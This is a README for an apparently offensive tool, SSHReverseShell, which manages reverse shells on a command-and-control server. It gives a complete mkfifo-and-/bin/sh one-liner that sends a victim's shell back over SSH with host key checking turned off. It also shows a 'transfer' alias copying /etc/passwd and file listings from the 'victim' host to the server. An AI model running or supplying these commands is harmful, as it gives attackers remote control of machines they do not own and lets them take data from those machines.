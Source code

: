 # SSHReverseShell
Script to setup a SSH reverse shell manager on a C2 server

1. Setup on the server
    ```bash
    ./sshshell.sh -a /home/rshell/.ssh/id_rsa.pub
    ```
    ```
    Adding SSH public key rshell => ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDOG+aXTDEM4k6Y/20s0NDZNWlmad+3nQotJYBBwqT7Ai/INV59WsSbQyL91W5y+30rMZQlXpk2UfVyxrFHCaEtUz3CXP/kkFsj862dgc3b8HeQM83GlHj6lZmpxihdVrNsQ7vn6uJTA9Wwo12fkGEXsN985ksofQR9s+rVIQJT3SAmJNhwbc8hDpunHl2sSRYil+kdVcCABNzKMUz5/3N6iB1DHzzYdgAIyZQ4+wmemUbBQ+clvqrVC2OdKl7h7WSEqgSp4IsHO0Bmo7ELqNYR1ORGk505dGGx62hbO5f7gciirRsH5EyptpBG3xYZxns4E5ont13l9GsL+Ok8ZH6N git@scanner
    Run the following command on the remote server to connect the reverse shell:
      mkfifo /tmp/f && cat /tmp/f | /bin/sh -i 2>&1 | ssh -i <SSH private key file> -o "StrictHostKeyChecking no" -o "UserKnownHostsFile /dev/null" rshell@server > /tmp/f; rm /tmp/f
    ```

2. Connect from the client
    ```bash
    mkfifo /tmp/f && cat /tmp/f | /bin/sh -i 2>&1 | ssh -i ~/.ssh/id_rsa -o "StrictHostKeyChecking no" -o "UserKnownHostsFile /dev/null" rshell@server > /tmp/f; rm /tmp/f
    ```
3. Connect from the server
    ```bash
    ./sshshell.sh
    ```
    ```
    Connecting to 8.8.8.8_18000...
    user@victim:~$
    ```

## Aliases
When connecting with a full TTY SSHReverseShell injects aliases to help performing common commands

### transfer
The transfer alias allows secure file transfer over SSH.

Examples:
```bash
user@victim:~$ transfer /etc/passwd
Warning: Permanently added 'xxx.xxx.xxx.xxx' (ECDSA) to the list of known hosts.
File transfer mode saving to yyy.yyy.yyy.yyy/_etc_passwd
Received 2429 bytes
```

```bash
user@victim:~$ find . | transfer
Warning: Permanently added 'xxx.xxx.xxx.xxx' (ECDSA) to the list of known hosts.
File transfer mode saving to yyy.yyy.yyy.yyy/output_1548231431
Received 736 bytes
```
